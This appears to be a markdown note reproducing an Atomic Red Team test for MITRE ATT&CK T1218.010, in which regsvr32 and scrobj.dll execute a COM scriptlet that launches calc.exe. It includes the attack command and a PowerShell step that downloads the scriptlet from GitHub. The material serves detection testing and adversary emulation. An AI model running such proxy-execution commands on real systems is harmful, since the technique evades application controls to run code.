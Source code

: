 ```yaml
---
tags: [T1218_010, atomic_test]
filename: "[[T1218.010 - Signed Binary Proxy Execution- Regsvr32]]"
---
```

# T1218.010 - Signed Binary Proxy Execution: Regsvr32

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 449aa403-6aba-47ce-8a37-247d21ef0306





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | path | PathToAtomicsFolder&#92;T1218.010&#92;src&#92;RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:"#{filename}" scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.sct must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{filename}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{filename}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}"
```
